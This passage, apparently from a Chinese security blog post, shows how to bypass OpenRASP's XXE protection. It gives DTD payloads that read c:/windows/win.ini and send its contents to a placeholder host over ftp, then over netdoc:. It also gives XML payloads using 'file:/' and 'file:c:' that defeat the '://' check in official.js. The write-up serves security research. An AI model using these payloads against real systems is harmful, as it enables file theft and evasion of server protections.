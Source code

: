 1.dtd文件内容如下。（因为openrasp会拦截，所以就不用起一个ftp服务，所以ftp协议后的主机地址没改。）

```
&lt;!ENTITY % payload SYSTEM "file:///c:/windows/win.ini"&gt;
&lt;!ENTITY % param1 "&lt;!ENTITY % send SYSTEM 'ftp://publicServer.com/%payload;'&gt;"&gt;
%param1;
```

可以看到触发了拦截。

[![](https://p0.ssl.qhimg.com/t01d2452ee0e7047354.png)](https://p0.ssl.qhimg.com/t01d2452ee0e7047354.png)

此时只要把1.dtd文件中ftp改为netdoc，并同样删除后面2个/。修改后1.dtd的内容如下。

```
&lt;!ENTITY % payload SYSTEM "file:///c:/windows/win.ini"&gt;
&lt;!ENTITY % param1 "&lt;!ENTITY % send SYSTEM 'netdoc:publicServer.com/%payload;'&gt;"&gt;
%param1;
```

再重放上面的请求。这个时候openrasp不会拦截，但报错语句中显示了`c:/windows/win.ini`的文件内容。

[![](https://p0.ssl.qhimg.com/t017325275954fddcba.png)](https://p0.ssl.qhimg.com/t017325275954fddcba.png)

这种绕过如果java关闭了报错，应该就不行了。测试时发现即使算法3也同时开启了拦截，依然会报错显示被读取的文件内容。



## 绕过原理简单分析

算法3开启拦截后，发送如下请求

```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;&lt;!DOCTYPE foo [   &lt;!ELEMENT foo ANY &gt;  &lt;!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" &gt;]&gt;&lt;foo&gt;&amp;xxe;&lt;/foo&gt;
```

official.js接收到openrasp agent传递过来的params值，其中params.entity的值是”file:///c:/windows/win.ini”。<br>
按照”://“切割params.entity值后，生成一个数组items。items数组的第一元素保存了使用的协议，即”file”，第二元素保存了要读取的文件的位置，即”/c:/windows/win.ini”。由于items.length等于2，所以会进入下面第二个箭头处的if语句内。又由于满足下面第三个箭头处的if语句条件，所以会进入该if语句进而触发拦截。

[![](https://p5.ssl.qhimg.com/t0189b89168e01b9f84.png)](https://p5.ssl.qhimg.com/t0189b89168e01b9f84.png)

当发送如下请求时

```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;&lt;!DOCTYPE foo [   &lt;!ELEMENT foo ANY &gt;  &lt;!ENTITY xxe SYSTEM "file:/c:/windows/win.ini" &gt;]&gt;&lt;foo&gt;&amp;xxe;&lt;/foo&gt;
```

或者

```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;&lt;!DOCTYPE foo [   &lt;!ELEMENT foo ANY &gt;  &lt;!ENTITY xxe SYSTEM "file:c:/windows/win.ini" &gt;]&gt;&lt;foo&gt;&amp;xxe;&lt;/foo&gt;
```

params.entity的值会是”file:/c:/windows/win.ini” 或者”file:c:/windows/win.ini” ，按照”://“进行切割，生成的items数组长度永远小于2，所以会直接运行到末尾的”return clean”处，从而绕过。

